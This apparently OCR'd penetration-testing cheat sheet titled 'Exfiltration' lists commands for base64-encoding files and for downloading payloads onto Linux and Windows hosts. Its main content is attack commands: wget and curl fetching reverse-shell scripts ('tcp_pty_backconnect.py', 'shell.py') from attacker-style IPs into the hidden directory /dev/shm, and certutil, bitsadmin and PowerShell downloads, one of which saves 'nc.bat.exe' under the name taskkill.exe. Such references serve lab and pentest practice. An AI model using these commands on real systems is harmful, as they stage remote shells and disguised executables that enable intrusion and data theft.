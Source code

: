 # Exfiltration

## Copy\&Paste Base64

#### Linux

```bash
base64 -w0 <file> #Encode file
base64 -d file #Decode file
```

#### Windows

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

## HTTP

#### Linux

```bash
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```

#### Windows

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

### Upload files

[**SimpleHttpServerWithFileUploads**](https://gist.github.com/UniIsland/3346170)
